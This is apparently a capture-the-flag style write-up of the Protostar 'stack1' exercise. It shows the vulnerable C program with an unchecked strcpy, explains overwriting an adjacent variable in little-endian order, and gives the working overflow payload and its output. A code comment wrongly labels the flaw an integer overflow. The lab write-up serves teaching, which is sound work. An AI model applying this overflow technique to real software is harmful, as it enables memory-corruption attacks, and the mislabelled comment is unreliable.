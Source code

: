 # STACK 1

## SOURCE CODE

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) 
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]); 					// vuln is here (integer overflow)

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## IDEA

- We will write 64 bytes to fill up the buffer content, and then overwrite into content of "modified" variable, this content will hold 0x61626364 to run into true branch of if.

## DETAIL

- This program will take input like this

```
			argv[0]     argv[1] 	.... 
			   | 		   |
			   v 		   v
			./program  input[1]     ....
```

- This program will take argv[1] as input


- I will overwrite all 64 bytes of "buffer" variable and modified the modified variable (modifiable because it initializes with volatile keyword). Because protostar using little edian to store data, so the number 0x61626364 will be "\x64\x63\x62\x61", it's the same as "dcba"

- I will generate 64 bytes with python ("a"*64)

## EXPLOIT

- Payload:

```
./stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadcba
```

## Result

```
$ ./stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadcba
you have correctly got the variable to the right value
```
